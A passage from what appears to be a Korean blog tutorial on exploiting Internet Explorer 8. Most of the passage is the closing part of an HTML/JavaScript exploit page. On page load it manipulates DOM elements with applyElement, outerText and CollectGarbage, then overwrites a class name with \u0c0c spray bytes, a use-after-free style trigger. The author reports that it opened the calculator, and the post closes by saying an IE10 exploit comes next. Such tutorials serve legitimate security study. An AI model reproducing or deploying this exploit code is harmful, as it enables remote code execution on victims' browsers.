 	try{
		e0 = document.getElementById("a");	// form
		e1 = document.getElementById("b"); // dfn
		e2 = document.createElement("q"); // q
		e1.applyElement(e2);
		e1.appendChild(document.createElement('button'));
		e1.applyElement(e0);
		e2.outerText="";
		e2.appendChild(document.createElement('body'));
		CollectGarbage();
		e0.className = "\u0c0c\u0c0cAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
	} catch(e){}

	}
	</script>
	</head>
	<body onload="eval(helloWorld())">
	<form id="a">
	</form>
	<dfn id="b">
	</dfn>
	</body>
	</html>
	

위 코드를 실행한 결과 아래와 같이 계산기가 정상적으로 실행된 것을 볼 수 있습니다.

<figure>
  <img data-action="zoom" src='{{ "/assets/images/windows/0x0e_18.png" | relative_url }}' alt='[그림 1-18]'>
</figure>
-------------------------------------------------------

첫 번째 IE8 Exploit 설명을 모두 마쳤습니다.

다음 글에서는 IE 10 Exploit을 다루어보도록 하겠습니다.